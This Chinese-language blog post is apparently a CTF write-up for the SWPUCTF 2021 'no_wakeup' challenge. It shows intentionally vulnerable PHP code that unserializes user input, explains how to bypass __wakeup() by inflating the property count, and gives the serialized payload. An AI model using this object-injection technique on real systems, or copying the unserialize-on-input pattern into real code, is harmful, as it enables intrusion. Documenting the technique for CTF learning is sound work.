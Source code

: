 +++
date = '2022-08-09T20:12:00+08:00'
draft = false
title = ' [SWPUCTF 2021 新生赛]no_wakeup'
tags = ['ctf']
categories = ['ctf']

+++

# [SWPUCTF 2021 新生赛]no_wakeup lamaper的WriteUp

### 知识点：反序列化、__weakup()绕过

进入题目发现源代码
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");
class HaHaHa{
        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }
$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);
?>
```
在29行程序调用反序列化方法时，会自动执行__weakup()函数，而显然weakup方法会加密上传的序列化参数中的passwd，而sha1是不可逆加密算法，目前也没有合适的sha1碰撞的方式，故考虑到绕过__weakup()函数；

php的特性，当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup(); 因而先构造
```php
$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus);
```
得到
```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
修改得到
```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
上传即可